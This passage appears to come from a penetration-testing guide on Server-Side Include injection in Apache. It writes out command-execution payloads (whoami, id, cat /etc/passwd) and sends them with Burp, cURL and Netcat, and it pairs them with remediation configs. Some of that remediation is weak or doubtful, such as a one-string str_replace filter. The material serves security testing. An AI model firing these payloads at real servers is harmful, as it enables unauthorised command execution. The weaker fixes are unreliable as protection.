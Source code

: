 **Remediation**:
- Disable file inclusion:
  ```apache
  Options -Includes
  ```
- Restrict file access:
  ```apache
  <Files ~ "\.(txt|conf)$">
      Deny from all
  </Files>
  ```

**Tip**: Save included file contents in a report.

### 4. Test for SSI Command Execution

**Objective**: Verify if SSI directives can execute system commands.

**Steps**:
1. Inject command execution payloads:
   - Use Burp:
     ```http
     GET /page.shtml?input=<!--#exec cmd="whoami" --> HTTP/1.1
     Host: example.com
     ```
   - Use cURL:
     ```bash
     curl -i "http://example.com/page.shtml?input=<!--#exec cmd=\"whoami\" -->"
     ```
2. Check responses:
   - Look for command output (e.g., `apache` or `www-data`).
   - Test other commands: `<!--#exec cmd="id" -->`, `<!--#exec cmd="cat /etc/passwd" -->`.
3. Test with Netcat:
   ```bash
   echo -e "GET /page.shtml?input=<!--#exec cmd=\"whoami\"--> HTTP/1.1\nHost: example.com\n\n" | nc example.com 80
   ```

**Example Vulnerable Configuration (Apache)**:
```apache
Options +Includes
AddOutputFilter INCLUDES .shtml
```
Test: `?input=<!--#exec cmd="whoami" -->`
Result: Displays `www-data`.

**Example Secure Configuration (Apache)**:
```apache
Options -IncludesNOEXEC
```
Test: No command output.

**Remediation**:
- Disable command execution:
  ```apache
  Options -IncludesNOEXEC
  ```
- Filter SSI directives:
  ```php
  $input = str_replace('<!--#exec', '', $input);
  ```
